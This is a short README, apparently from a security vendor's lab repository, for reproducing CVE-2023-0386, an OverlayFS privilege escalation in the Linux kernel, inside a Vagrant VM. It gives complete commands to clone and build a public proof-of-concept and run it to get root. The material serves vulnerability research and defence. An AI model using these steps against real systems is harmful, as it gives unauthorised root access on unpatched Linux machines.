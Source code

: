 # CVE-2023-0386

This folder contains a virtual machine and instructions to reproduce [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386), a vulnerability in the Linux kernel’s OverlayFS subsystem that allows an unprivileged user to escalate their privileges to root.

## How to reproduce

* Start the virtual machine (based on Ubuntu 22.04.1, kernel 5.15.0-57-generic):

```
vagrant up
```

* SSH to the machine as an unprivileged user:

```
vagrant ssh --command "sudo su john -c 'cd; bash'"
```

```bash
john@ubuntu-jammy:~$ id
uid=1002(john) gid=1002(john) groups=1002(john)
```

* Clone and compile the [proof of concept repository](https://github.com/xkaneiki/CVE-2023-0386/)

```
git clone https://github.com/xkaneiki/CVE-2023-0386.git
cd CVE-2023-0386
git checkout c4c65cefca1365c807c397e953d048506f3de195
make all
```

* Run the following commands to exploit the vulnerability and escalate to root:

```
./fuse ./ovlcap/lower ./gc >/dev/null 2>&1 &
./exp
```

<p align="center">
   <img src="screenshot.png" width="650" />
</p>

## Credits

Proof-of-concept: https://github.com/xkaneiki/CVE-2023-0386/
Reproduction for Datadog: Ryan Simon
